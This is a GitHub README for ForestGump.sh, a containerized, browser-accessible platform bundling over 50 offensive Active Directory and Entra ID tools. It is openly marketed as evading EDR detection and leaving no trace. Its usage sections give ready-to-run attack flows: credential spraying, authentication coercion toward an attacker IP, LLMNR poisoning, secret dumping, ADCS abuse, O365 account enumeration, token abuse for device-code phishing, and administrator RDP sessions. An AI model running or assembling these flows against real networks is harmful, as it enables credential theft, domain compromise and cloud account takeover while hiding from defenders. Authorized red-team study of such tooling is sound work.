

<p align="center">
    
</p>

<p align="center">
    
</p>

<p align="center">
    <strong>The AD & Entra ID Attack Platform That Runs in Your Browser</strong>
</p>

<p align="center">
    <code>containerized</code> · <code>browser-based</code> · <code>EDR-invisible</code> · <code>ready to roll</code>
</p>

<p align="center">
    <a href="#quick-start"></a>
    <a href="#arsenal"></a>
    <a href="#rdp--vnc-in-the-browser"></a>
    <a href="#kubernetes-deployment"></a>
</p>

---

> *"Mama always said: AD pentesting tools are like a box of chocolates — you never know what you're gonna get."*
>
> But with ForestGump.sh, you get **all of them**. In a browser. In a container.

---

## The Paper Bag Theory

When an EDR like CrowdStrike or SentinelOne is sitting on the target, running impacket from your laptop is like chugging whiskey in the checkout aisle — you're gonna get caught.

But wrap it in a container? **That's the paper bag.**

The EDR sees ttyd, a friendly little web terminal. It doesn't see the Responder, the secretsdump, the ntlmrelayx hiding inside. You just look like a guy buying groceries.

**Single Docker image. 50+ offensive tools. Zero disk footprint.** Fire up a browser and you're in. Run from anywhere. Leave no agent on disk. And if you mess up? Just like that, it's like stepping off a bus — you don't even look back.

---

## Demo

<p align="center">
    
</p>

<table>
<tr>
<td width="33%"><strong>Instant Access</strong><br/>Launch AD & Entra recon tools the second the container starts</td>
<td width="33%"><strong>Disposable</strong><br/>Ephemeral container — kill it and every trace vanishes</td>
<td width="33%"><strong>Portable</strong><br/>Works from any machine with a browser at <code>localhost:7681</code></td>
</tr>
</table>

---

## Quick Start

```bash
# One command to rule them all
make build && make run
```

Then open **http://localhost:7681** in your browser. That's it. You're in.

<details>
<summary><strong>Other run modes</strong></summary>

```bash
# Bridge networking (Docker Desktop on Windows/Mac)
make run-windows

# Host networking (native Linux — all ports, raw sockets)
make run-linux

# Use the prebuilt GHCR image (no build required)
make ghcr          # Docker Desktop
make ghcr-linux    # Native Linux

# Interactive shell (bypass ttyd, go straight to bash)
make shell
```

</details>

<details>
<summary><strong>GHCR one-liner (no clone needed)</strong></summary>

```bash
docker run -it --rm --name forestgump \
  -p 7681:7681 -p 6080:6080 -p 5000:5000 \
  --cap-add=NET_ADMIN --cap-add=SYS_ADMIN \
  ghcr.io/benjitrapp/forestgump.sh:latest
```

For Mac Silicon (ARM):
```bash
docker pull ghcr.io/benjitrapp/forestgump.sh:latest --platform linux/x86_64
```

</details>

---

## Arsenal

> 50+ tools. Everything you need from initial recon to full domain compromise to cloud takeover.

### On-Prem Active Directory

<details open>
<summary><strong>Reconnaissance & Enumeration</strong></summary>

| Tool | What it does |
|:-----|:-------------|
| [BloodHound.py](https://github.com/dirkjanm/BloodHound.py) | BloodHound Python ingestor — map attack paths |
| [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec) | Network execution toolkit (SMB, LDAP, WinRM, MSSQL) |
| [godap](https://github.com/Macmod/godap) | LDAP TUI explorer — browse AD like a filesystem |
| [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) | Dump the entire domain via LDAP |
| [ldapnomnom](https://github.com/lkarlslund/ldapnomnom) | Anonymous LDAP username bruteforce |
| [ad-reaper](https://github.com/mermehr/ad-reaper) | Multi-protocol AD enumerator (LDAP, SMB, SAMR) |
| [AdStrike](https://github.com/capture0x/AdStrike) | AI-powered modular AD red-team framework |
| [GPOHunter](https://github.com/PShlyundin/GPOHunter) | GPO misconfiguration analyzer |
| [gpoParser](https://github.com/synacktiv/gpoParser) | GPO extraction & analysis |
| [snafflepy](https://github.com/cisagov/snafflepy) | Python Snaffler — sniff out interesting files on shares |
| [snitch](https://github.com/karol-broda/snitch) | AD recon & enumeration |

</details>

<details open>
<summary><strong>Authentication Attacks & Relay</strong></summary>

| Tool | What it does |
|:-----|:-------------|
| [Responder](https://github.com/lgandx/Responder) | LLMNR/NBT-NS/MDNS poisoner — harvest creds off the wire |
| [Impacket](https://github.com/fortra/impacket) | Swiss army knife of AD protocols (secretsdump, getTGT, ntlmrelayx, ...) |
| [RelayKing-Depth](https://github.com/depthsecurity/RelayKing-Depth) | NTLM & Kerberos relay detection |
| [Coercer](https://github.com/p0dalirius/Coercer) | Automatic Windows auth coercion |
| [gopacket](https://github.com/mandiant/gopacket) | Go Impacket — 63 tools, 24 packages (Mandiant) |
| [gontlm-proxy](https://github.com/bdwyertech/gontlm-proxy) | NTLM proxy forwarder |
| [px](https://github.com/genotrance/px) | NTLM proxy (Python) |

</details>

<details open>
<summary><strong>Privilege Escalation & Exploitation</strong></summary>

| Tool | What it does |
|:-----|:-------------|
| [bloodyAD](https://github.com/CravateRouge/bloodyAD) | AD privilege escalation swiss army knife (LDAP/SAMR) |
| [certipy-ad](https://github.com/ly4k/Certipy) | ADCS abuse toolkit — ESC1 through ESC13 |
| [pySIDHistory](https://github.com/felixbillieres/pySIDHistory) | Remote SID History injection & auditing |
| [getSPNless](https://github.com/jarnovandenbrink/getSPNless) | SPN-less RBCD attacks |
| [DonPAPI](https://github.com/login-securite/DonPAPI) | Remote DPAPI credential dumper |
| [mimikatz](https://github.com/gentilkiwi/mimikatz) | Windows credential extraction |
| [Rubeus](https://github.com/GhostPack/Rubeus) | Kerberos abuse toolkit |
| [ADCSCoercePotato](https://github.com/decoder-it/ADCSCoercePotato) | ADCS auth coercion |

</details>

<details>
<summary><strong>Windows Binaries & PowerShell (transfer to target)</strong></summary>

| Tool | Path |
|:-----|:-----|
| [mimikatz](https://github.com/gentilkiwi/mimikatz) | `/opt/tools/mimikatz/` |
| [Rubeus](https://github.com/GhostPack/Rubeus) | `/opt/tools/Rubeus/` |
| [KslKatz](https://github.com/vergamota/KslKatz) | `/opt/tools/KslKatz/` |
| [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) | `/opt/tools/PowerSploit/` |
| [SharpUp](https://github.com/GhostPack/SharpUp) | `/opt/tools/SharpUp/` |
| [Recon-AD](https://github.com/outflanknl/Recon-AD) | `/opt/tools/Recon-AD/` |
| [ADCSCoercePotato](https://github.com/decoder-it/ADCSCoercePotato) | `/opt/tools/ADCSCoercePotato/` |
| [adPEAS](https://github.com/61106960/adPEAS) | `/opt/tools/adPEAS/` |
| [AD-Ghost](https://github.com/LuemmelSec/AD-Ghost) | `/opt/tools/AD-Ghost/` |
| [Invoke-PassTheCert](https://github.com/The-Viper-One/Invoke-PassTheCert) | `/opt/tools/Invoke-PassTheCert/` |

</details>

---

### Entra ID / Azure / M365

> From initial access to full cloud takeover — device codes, token abuse, email access, MFA bypass.

| Tool | What it does |
|:-----|:-------------|
| [GraphSpy](https://github.com/RedByte1337/GraphSpy) | **Entra ID & M365 post-exploitation browser GUI** — tokens, device codes, PRT, MFA, Outlook, Teams, OneDrive (port 5000) |
| [CredSpy](https://github.com/RedByte1337/CredSpy) | Entra ID user enumeration & auth method discovery via GetCredentialType API |
| [o365creeper](https://github.com/RedByte1337/o365creeper) | O365 email address validation without login attempts |
| [TokenTactics](https://github.com/rvrsh3ll/TokenTactics) | Azure JWT token manipulation — device code phishing, token switching (PowerShell) |
| [ROADtools](https://github.com/dirkjanm/ROADtools) | Azure AD exploration framework (roadrecon + roadtx) |
| [EntraFalcon](https://github.com/CompassSecurity/EntraFalcon) | Entra ID enumeration & risk assessment (PowerShell) |
| [entra-ca-insight](https://github.com/emiliensocchi/entra-ca-insight) | Conditional Access gap analysis |
| [TokenSmith](https://github.com/JumpsecLabs/TokenSmith) | Entra ID token generator (Go) |
| [AzureRedOps](https://github.com/Mr-Un1k0d3r/AzureRedOps) | Azure/Entra ID red team PowerShell toolkit |
| [GraphRobber](https://github.com/rabbit-sec/GraphRobber) | Microsoft Graph API permission abuse |
| [Microsoft.Graph](https://github.com/microsoftgraph/msgraph-sdk-powershell) | Microsoft Graph PowerShell SDK |
| [AzureAD](https://github.com/Azure/AzureAD) | AzureAD PowerShell module |

---

### Shells & Remote Access

| Tool | What it does |
|:-----|:-------------|
| [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) | WinRM shell (Ruby) |
| [xfreerdp](https://github.com/FreeRDP/FreeRDP) | RDP client (headless-safe via xvfb) |
| [rdp-browser](#rdp--vnc-in-the-browser) | Browser-accessible RDP via noVNC (port 6080) |
| [tmux](https://github.com/tmux/tmux) | Terminal multiplexer |
| [tightvncserver](https://github.com/TigerVNC/tigervnc) | VNC server |
| [noVNC](https://github.com/novnc/noVNC) | Browser-based VNC client (port 6080) |
| [pwsh](https://github.com/PowerShell/PowerShell) | PowerShell 7 |

---

## Usage Examples

<details open>
<summary><strong>On-Prem AD Attack Flow</strong></summary>

```bash
# Enumerate the domain
bloodhound-python -d domain.local -u user -p Password123 -dc dc.domain.local -c all

# Spray credentials across the network
nxc smb 192.168.1.0/24 -u user -p Password123

# Coerce authentication
coercer coerce -d domain.local -u user -p Password123 --dc-ip 192.168.1.10 -l attacker-ip

# Poison the network
responder -I eth0 -wrf

# Dump secrets
impacket-secretsdump domain.local/user:Password123@192.168.1.10

# ADCS exploitation
certipy-ad find -u user@domain.local -p Password123 -dc-ip 192.168.1.10
```

</details>

<details open>
<summary><strong>Entra ID / Cloud Attack Flow</strong></summary>

```bash
# Validate O365 email addresses (no login attempts)
o365creeper -f emails.txt -o valid.txt

# Enumerate auth methods for valid users
credspy valid.txt --csv results.csv

# Launch GraphSpy browser GUI for post-exploitation
graphspy
# Open http://localhost:5000 — manage tokens, device codes, read emails, Teams, OneDrive

# Azure JWT token manipulation (PowerShell)
pwsh -c "Import-Module /opt/tools/TokenTactics/TokenTactics.psd1; Get-AzureToken -Client MSGraph"

# ROADtools exploration
roadrecon auth -u user@target.com -p Password123
roadrecon gather
roadrecon gui
```

</details>

---

## Ports & Services

| Port | Service | Access | Purpose |
|:----:|:--------|:-------|:--------|
| `7681` | ttyd | **http://localhost:7681** | Web terminal (primary interface) |
| `5000` | GraphSpy | **http://localhost:5000** | Entra ID/M365 post-exploitation GUI |
| `6080` | noVNC | **http://localhost:6080/vnc.html** | Browser-accessible RDP desktop |
| `5900` | x11vnc | internal | VNC (container only) |

---

## RDP & VNC in the Browser

ForestGump.sh gives you two ways to work with RDP sessions — both work inside the headless ttyd terminal without a physical X display.

### xfreerdp (headless-safe)

The `xfreerdp` command is wrapped by `xvfb-run` when no display is available:

```bash
xfreerdp /v:192.168.1.100 /u:administrator /p:Password123 /cert:ignore
```

### Browser-accessible RDP via noVNC

For full visual RDP access, use `rdp-browser`:

```
Xvfb --> xfreerdp --> x11vnc --> websockify/noVNC --> your browser
```

```bash
rdp-browser /v:192.168.1.100 /u:administrator /p:Password123 /cert:ignore
```

Open **http://localhost:6080/vnc.html** in a second browser tab.

### Background session management

```bash
rdp-bg /v:192.168.1.100 /u:admin /p:Password123 /cert:ignore
# Terminal is free — session runs in background

rdp-ls          # List active sessions
rdp-stop 1234   # Kill session by PID
```

<details>
<summary><strong>Environment variables</strong></summary>

| Variable      | Default        | Description                          |
|---------------|----------------|--------------------------------------|
| `NOVNC_PORT`  | `6080`         | noVNC web interface port             |
| `VNC_PORT`    | `5900`         | Internal VNC port                    |
| `DISPLAY_NUM` | `99`           | Virtual X display number             |
| `SCREEN_SIZE` | `1280x1024x24` | Virtual screen resolution & depth    |

</details>

---

## xfreerdp Demo Environment

A self-contained demo environment validates headless RDP connectivity end-to-end:

<p align="center">
    
</p>



<details>
<summary><strong>Run the demo</strong></summary>

```bash
# Build and launch both containers
docker compose -f docker-compose.demo.yml up -d --build

# Wait for xrdp to initialize
sleep 3

# Run the validation
docker exec forestgump bash /opt/scripts/demo-xfreerdp.sh rdp-target demo demo

# Dry-run (no target, validates toolchain only)
docker exec forestgump bash /opt/scripts/demo-xfreerdp.sh
```

| Check | What it proves |
|-------|---------------|
| xfreerdp binary | `freerdp2-x11` package is correctly installed |
| Version output | xfreerdp executes inside the container via xvfb |
| xvfb-run available | Headless X11 virtual framebuffer is present |
| Live RDP connection | End-to-end RDP from forestgump to rdp-target works |

**Demo credentials:** `demo` / `demo`

**Cleanup:**
```bash
docker compose -f docker-compose.demo.yml down
```

</details>

<details>
<summary><strong>Troubleshooting</strong></summary>

- **xrdp not listening** — wait a few seconds after container start; xrdp-sesman needs time to initialize.
- **"Xvfb failed to start"** — a stale lock file may exist. The `--auto-servernum` flag avoids this. If it persists, restart the container.
- **Connection refused** — ensure both containers are on the same network (`docker network ls` should show `forestgumpsh_adlab`).

</details>

---

## Network & Capabilities

The container optionally uses `--net=host` to share the host network stack — necessary for tools like Responder, Coercer, and nxc that need raw socket access.

| Capability | Why |
|:-----------|:----|
| `NET_ADMIN` | Packet crafting, network manipulation |
| `SYS_ADMIN` | Raw sockets (Responder, relay tools) |

---

## Kubernetes Deployment

```bash
kubectl apply -f https://raw.githubusercontent.com/benjitrapp/forestgump.sh/main/deploy/forestgump.yaml
```

<details>
<summary><strong>Manual manifests</strong></summary>

**Pod:**
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: forestgump-pod
  labels:
    app: forestgump
spec:
  containers:
  - name: forestgump-pod
    image: ghcr.io/benjitrapp/forestgump.sh:latest
    ports:
    - containerPort: 7681
    - containerPort: 5000
    securityContext:
      readOnlyRootFilesystem: true
```

**Service:**
```yaml
apiVersion: v1
kind: Service
metadata:
  name: forestgump-svc
  labels:
    app: forestgump
spec:
  type: ClusterIP
  ports:
  - port: 7681
    protocol: TCP
    name: ttyd
  - port: 5000
    protocol: TCP
    name: graphspy
  selector:
    app: forestgump
```

**Access:**
```bash
kubectl port-forward forestgump-pod 7681:7681 5000:5000
```

Open **http://localhost:7681** (terminal) and **http://localhost:5000** (GraphSpy).

</details>

---

## Project Structure

```
ForestGump.sh/
├── Dockerfile                   # Single-stage build, ttyd base image
├── Makefile                     # build / run / ghcr / shell targets
├── install.sh                   # Tool installation (runs during docker build)
├── docker-compose.demo.yml      # Demo: forestgump + rdp-target
│
├── scripts/
│   ├── entrypoint.sh            # Container startup + tool banner
│   ├── shell.sh                 # Shell launcher (sources tools.sh)
│   ├── tools.sh                 # PATH, aliases, help() function
│   ├── bashrc_custom            # rdp-bg, rdp-stop, rdp-ls helpers
│   ├── xfreerdp.sh             # Headless-safe xfreerdp wrapper
│   ├── rdp-browser.sh          # noVNC RDP pipeline
│   ├── demo-xfreerdp.sh        # Validation script (4 checks)
│   └── demo-record-terminal.sh # GIF recording helper
│
├── deploy/
│   ├── forestgump.yaml          # Kubernetes manifest
│   └── rdp-target/Dockerfile    # Demo RDP target (Ubuntu + xrdp)
│
├── static/                      # Logo, GIFs, screenshots
└── assets/                      # Demo recordings
```

---

<p align="center">
    <em>"I may not be a smart man, but I know what domain admin is."</em>
</p>
